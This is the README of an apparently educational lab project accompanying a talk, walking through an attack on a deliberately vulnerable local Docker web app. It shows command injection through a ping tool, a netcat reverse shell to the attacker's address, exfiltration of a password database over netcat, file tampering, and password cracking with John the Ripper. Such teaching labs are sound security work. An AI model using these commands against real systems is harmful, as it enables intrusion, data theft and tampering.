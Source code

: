 # 1984 Hacked
## Anatomy of a Cyberattack

This project is the companion demonstration for a talk I gave at Columbia University. Follow the steps
below perform the demonstration at your own pace.

These instructions were initially created and verified on macOS. Support for additional operating systems
is added via the author's own memory. Please open an issue or PR if you encounter a mistake.

## Required Software
1. [Docker](https://docs.docker.com/desktop/install/mac-install/)
2. [John The Ripper](https://formulae.brew.sh/formula/john)


## Initial Setup
1. Clone this project. `git clone https://github.com/jonmannn/1984-hacked.git`
2. Navigate into the project folder. `cd 1984-hacked`
2. Clear your existing John The Ripper data. `rm ~/.john/john.pot` (This makes repeat demonstrations possible)
3. Build the Docker container. `docker build . -t 1984-hacked`
4. Run the Docker container. `docker run -it -p 8888:8888 1984-hacked`

## Demonstration
### Exploitation
1. Navigate to the target webpage in a web browser. `http://127.0.0.1:8888`
2. Login with the stolen credentials:
```
Username: winston.smith@newspeakprinting.com
Password: Julia1984!
```
3. Test the ping tool using an arbitrary IP address like `1.1.1.1` (Cloudflare) or `8.8.8.8` ( Google). ![](assets/ping.png)
4. Perform command injection. `1.1.1.1 && whoami` ![](assets/command-injection.png)

### Installation
1. Open the terminal app
2. Start a netcat listener `nc -v -l 4444`
3. Send a shell from the exploited webserver `1.1.1.1 &&nc <your-ip-address> 4444 -e /bin/bash -vvv`
   ![](assets/netcat-png.png)
(Note: You won't receive feedback from your Netcat listener, after waiting a few moments you can test a simple command like `ls` to ensure you can execute commands.)

### Command and Control
1. With your new access, look around the directory structure. You should
discover that there is a script to print newspapers at `/apps/print_newspaper.py` and that it prints files stored
in `/readyForPressing/`
![](assets/print_newspaper.png)
2. This can be weaponized by modifying the contents of one of the articles stored in `/readyForPressing/`
3. For example, we can replace the adversary name with `Eastasia` in the article titled `Eurasia's Intentions Exposed` with `sed -i ‘s/Eurasia/Eastasia/g’ Front_Page.txt`

### Act On Objectives
1. Locate password database in `/web_auth/users.db`
2. In a new terminal window, open a Netcat listener that writes to a file `nc -v -l 5555 > users.db`
3. In the initial terminal window, upload the file to our new Netcat listener  ![](assets/upload.png)
4. Wait a few moments, as you won't receive any feedback. But since this is a small text file, it shouldn't take more than a few seconds. Then press CTRL + C to exit the Netcat listener.
5. Validate your download on the new terminal window with `cat users.db`
![](assets/users-db-validate.png)
6. Now, we can use John the Ripper to try and crack the passwords. We'll be trying all of the password combinations in the provided wordlist (`wordlist.txt) in the repository.
7. Run John the Ripper `john --wordlist=path/to/wordlist.txt --format=bcrypt users.db`
![](assets/cracked.png)

